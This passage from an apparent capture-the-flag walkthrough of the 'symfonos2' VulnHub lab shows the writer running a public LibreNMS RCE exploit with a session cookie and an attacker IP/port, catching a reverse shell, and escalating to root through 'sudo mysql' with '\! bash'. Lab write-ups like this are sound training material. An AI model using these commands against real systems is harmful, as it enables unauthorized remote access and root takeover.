 From here, we just need to figure out if there's a way to abuse the LibreNMS site. In keeping with
today's theme, we hop on over to Exploit-DB and see what's out there. One quick search later, and
we have an [RCE exploit][5]. Glancing over the code it would appear we need to supply the URL, a
cookie, our attacking IP address and a listening port on our machine. The exploit doesn't specify
what cookie we need to supply, so we'll have to figure out what that looks like by inspecting our
browser.  

Opening up the developer panel and navigating to the storage section, we find a couple of different
cookies, but the one that looks most promising is the 'librenms_session' cookie. Since the exploit
doesn't provide an authentication mechanism, I think it is safe to assume the librenms cookie is
probably what we need to prove we have successfully authenticated. Stringing all that together:
```
# python librenms.py http://127.0.0.1:8006 "librenms_session=eyJ...%3D" 10.0.100.23 4444
[+] Device Created Sucssfully
```

But no notification that I should check my netcat listener. I check it anyway, and find that it
hasn't received any incomming connections...odd. Digging into the exploit a little bit more, it
appears that this exploit works because the web application doesn't properly sanitize user inputs
in the community field when setting up a device using SNMP. I checked to see if the device was
created in the console, and confirm that it is there, so let's  see if we can trigger the payload
manually from the site...

Poking around I don't see anything that immediately makes me think it is going to pull SNMP from
the device, but I noticed the gear icon on the right side of the page and find a 'capture' item in
the drop down. Selecting this takes me to the debug collection page that, conveniently enough, has
an SNMP tab. A quick check of this tab gives us a run button... Woo! Sweet, sweet reverse shell!
Let's see who we are this time...Cronus! Wonder if he can sudo...  

![Low-priv-2](/assets/images/symfonos2-second-low-priv-shell.png)  

Well now, that makes things easy sailing from here:
```
# sudo /usr/bin/mysql
MariaDB [(none)]> \! bash;
root@symfonos2:/opt/librenms: # id
id
uid=0(root) gid=0(root) groups=0(root)
```


[1]: /disclaimer/
[2]: https://www.vulnhub.com/entry/symfonos-2,331/
[3]: https://twitter.com/@Zayotic
[4]: https://www.exploit-db.com/exploits/36742
[5]: https://www.exploit-db.com/exploits/47044